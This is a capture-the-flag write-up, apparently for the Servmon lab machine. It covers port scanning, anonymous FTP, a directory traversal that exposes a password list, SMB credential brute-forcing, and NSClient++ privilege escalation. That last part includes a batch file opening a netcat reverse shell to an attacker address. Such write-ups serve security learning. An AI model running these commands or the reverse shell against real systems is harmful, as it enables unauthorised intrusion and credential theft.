 # Servmon

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 01:44 EDT
Nmap scan report for 10.129.227.77
Host is up (0.0077s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Loads of ports. This is an easy and old machine, so it shouldn't be too complex.

### Anonymous FTP

When I see FTP, the first thing I check for is anomymous logins. This works for this machine

```
$ ftp 10.129.227.77      
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49677|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
```

We can find 2 files, one `Confidential.txt` and a `Notes to do.txt`. Reading the confidential one highlights that there is a password file somewhere:

{% code overflow="wrap" %}
```
$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
{% endcode %}

Great!&#x20;

### LFI

On port 80 and port 8443, there are HTTP and HTTPS sites presents respectively. Looking at port 80, we see this is running NVMS-1000:

<figure><img src="../../../.gitbook/assets/image (52) (5).png" alt=""><figcaption></figcaption></figure>

There are public exploits for these:

```
$ searchsploit nvms                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modific | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Following the PoC, we can see it works:

<figure><img src="../../../.gitbook/assets/image (47) (6).png" alt=""><figcaption></figcaption></figure>

Great! Now, we can read the `password.txt` file that we found hints of earlier. Here are the passwords retrieved:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

With this, we can run a `crackmapexec` to brute force the possible passwords.&#x20;

```
./cme smb 10.129.227.77 -u /home/kali/htb/servmon/users -p /home/kali/htb/servmon/passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

This would find that the credentials of `nadine:L1k3B1gBut7s@W0rk` is the right one. With these credentials, we can SSH into the machine as the `nmap` scan found earlier showed port 22 was open.

<figure><img src="../../../.gitbook/assets/image (49) (3) (2).png" alt=""><figcaption></figcaption></figure>

Then grab the user flag.

## Privilege Escalation

### NSClient++ Privilege Escalation

Earlier, I mentioned that port 8443 was running a HTTPS site and we have not enumerated it yet. This port had NSClient++ running on it:

<figure><img src="../../../.gitbook/assets/image (54) (3) (2).png" alt=""><figcaption></figcaption></figure>

None of the functions work. Searching for public exploits works however:

```
$ searchsploit nsclient                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The Privilege Escalation is the one I need now. Following the PoC, we first need to grab the administrator password:

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

Then we need to download `nc.exe` to the machine and a `.bat` file that executes a reverse shell

```batch
@echo off
c:\Windows\Tasks\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Then we need to login, but for some reason the application is blocking me. When we check the `nsclient.ini` configuration file, we see that it only allows `localhost` to access the services:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

So we need to do some port forwarding using `ssh`.&#x20;

```
ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

Then we can access the site and continue.&#x20;

<figure><img src="../../../.gitbook/assets/image (159) (4).png" alt=""><figcaption></figcaption></figure>

Login using the administrator password we found earlier. There are automated PoCs for this:

{% embed url="https://packetstormsecurity.com/files/157306/NSClient-0.5.2.35-Authenticated-Remote-Code-Execution.html" %}

We can run it like so after downloading the relevant files onto the machine:

```bash
python3 pe.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c "c:\Windows\Tasks\evil.bat"
```

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Rooted!
